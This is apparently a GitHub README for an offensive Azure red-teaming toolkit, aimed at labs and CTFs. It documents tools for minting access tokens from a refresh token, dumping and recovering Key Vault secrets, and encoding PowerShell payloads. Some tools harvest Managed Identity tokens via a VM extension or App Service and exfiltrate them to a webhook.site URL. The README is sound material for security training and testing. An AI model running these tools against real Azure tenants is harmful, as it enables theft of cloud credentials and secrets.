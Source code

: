 # 🔓 azure-insecurity-tools

**A growing collection of offensive Azure tools and scripts** designed to support cloud red teaming, lab work, and deep exploration of Microsoft cloud internals.

---

## 📦 What's Inside

This repo will evolve as I learn more about attacking Azure. The focus is hands-on, practical tooling for real-world and lab scenarios.

### ✅ Initial Tool: `token_multiplexer.py`

Use a single `refresh_token` to mint multiple `access_token`s across different Azure resource scopes (Graph, Key Vault, ARM, etc).

#### Features
- Exchanges refresh tokens for any `.default` scoped resource
- Decodes JWT and extracts `aud`, `scp`, and `exp` claims
- Built as a CLI for flexible reuse
- Useful in phishing/OAuth abuse scenarios like AzRTE labs

#### Example Usage
```bash
python token_multiplexer.py \
  --refresh-token "<paste_here>" \
  --client-id "your-app-client-id" \
  --client-secret "your-app-client-secret" \
  --scope "https://vault.azure.net/.default"
```

### 🔑 kv-dump-old-versions.py — Enumerate and Dump Azure Key Vault Secret Versions

This script enumerates secrets in Azure Key Vaults and retrieves all available versions, including old values that might remain after rotation.

#### Features
- Works on a single vault or all vaults in a subscription.
- Dumps all secret versions with flags for which one is latest.
- Supports table view (human-friendly) and JSON output (machine-friendly).
- Flags old values that differ from the latest version.

#### Usage
```bash
# Enumerate all vaults in a subscription
python3 kv-dump-old-versions.py --subscription-id <subscription-id>

# Target a specific vault and output as JSON
python3 kv-dump-old-versions.py --vault kv-1-2e693029 --output json
```

### 🔢 kv-rsa-decrypt.py

Tries common RSA algorithms against a given Key Vault key ID. Uses `az` under the hood to leverage existing logon.

#### Usage
```bash
python3 kv-rsa-decrypt.py \
  --key-id "https://kv-2-xxxx.vault.azure.net/keys/key-2-xxxx/<version>" \
  --ciphertext-b64 "G067ensX6Zgz...=="  # full base64 blob

# or force a specific algo:
python3 kv-rsa-decrypt.py --key-id ... --ciphertext-b64 ... --algo RSA-OAEP
```

### 🗑️ kv-recover-deleted.py

List and recover deleted secrets for a vault.

#### Usage
```bash
python3 kv-recover-deleted.py --vault kv-3-2e693029
python3 kv-recover-deleted.py --vault kv-3-2e693029 --recover-all
```

### 🔍 role-attack-surf.py

- Lists your role assignments at a given scope (vault/RG/subscription)
- Pulls each role definition
- Flags interesting Actions/DataActions (stuff that tends to be abusable)
- Prints a summary + optional JSON
- Suggests quick exploits (e.g., `set-policy` when it sees `accessPolicies/write`)

#### Usage
```bash
# At a vault scope (like your lab)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>"

# Filter to your SP only (faster to read)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>" \
  --assignee <client_id>

# Dump full JSON too
python3 role-attack-surf.py --scope "/subscriptions/<sub>" --json
```

### ﹟psenc.py

Output PowerShell `-EncodedCommand` string given a file, command, or stdin.

#### Usage
```bash
# direct command
python3 psenc.py -c 'Write-Host "Hello from Mac!"' --print-example

# from a file
python3 psenc.py -f payload.ps1 > encoded.txt

# from stdin (handy in pipelines)
echo '$PSVersionTable.PSVersion' | python3 psenc.py --stdin
```

### 🕸️ cse_min.py

Trigger the Azure CustomScriptExtension on a Windows VM to run a PowerShell payload that collects Managed Identity tokens (ARM + Key Vault) and exfiltrates them to a specified webhook.

#### Usage
```bash
# basic usage (System-Assigned MI)
python3 cse_min.py -g <resource-group> -n <vm-name> -w https://webhook.site/<uuid>

# with User-Assigned Managed Identity client ID
python3 cse_min.py -g <resource-group> -n <vm-name> \
    -w https://webhook.site/<uuid> \
    --uami <user-assigned-mi-client-id>

# dry run (show PowerShell and encoded command without sending)
python3 cse_min.py -g <resource-group> -n <vm-name> -w <webhook-url> --show
```

**This will:**
1. Build the PowerShell payload to grab ARM + Key Vault access tokens via IMDS.
2. Encode it to UTF-16LE Base64 for `-EncodedCommand` execution.
3. Deploy it to the target VM via Azure CLI `az vm extension set` with `CustomScriptExtension`.
4. POST results to the given webhook.

### 📦 az-vars.sh

Extracts and exports key Azure resource identifiers and settings from JSON CLI output into shell variables for quick reuse in pentest or automation workflows.

#### Usage
```bash
# Pipe Azure CLI JSON output into script
az postgres flexible-server list -o json | bash az-vars.sh

# Or execute directly if marked executable
az postgres flexible-server list -o json | ./az-vars.sh
```

**This will:**
1. Parse JSON input from stdin (e.g., `az <resource> list -o json`).
2. Extract commonly used fields like `id`, `name`, `resourceGroup`, `location`, `fqdn`.
3. Export each as an environment variable (e.g., `$AZ_NAME`, `$AZ_RG`).
4. Print them in `VAR=value` form for quick copy/paste into other commands.

---

## 🛠 Additional Tools

### appservice-harvest

Deploy a custom container to Azure App Service to harvest Managed Identity tokens and optionally execute remote commands.

- Supports System-Assigned and User-Assigned MIs
- Collects ARM + Key Vault tokens
- Exfiltrates via a configurable webhook URL

**See:** [`appservice-harvest/README.md`](./appservice-harvest/README.md) for full details, setup, and usage instructions.


### 📄 task-kv.yaml

A simple ACR task template that leverages an MI's access to Key Vault to exfil secrets via echo into build logs


### 📩 servicebus_client.py

A simple Service Bus client that retrieves messages given a queue or topic/subscription and a primary key

### ☣️ token_exfil.ps1

One-liner PowerShell script that can run in the context of an automation job, container, etc. Queries the metadata endpoint for a vault token and exfiltrates to a webhook.

---


⚠️ **Disclaimer**  
For educational and lab use only.  
Do not use these tools without explicit permission. They are intended to support self-hosted labs, CTF environments, and ethical security testing.
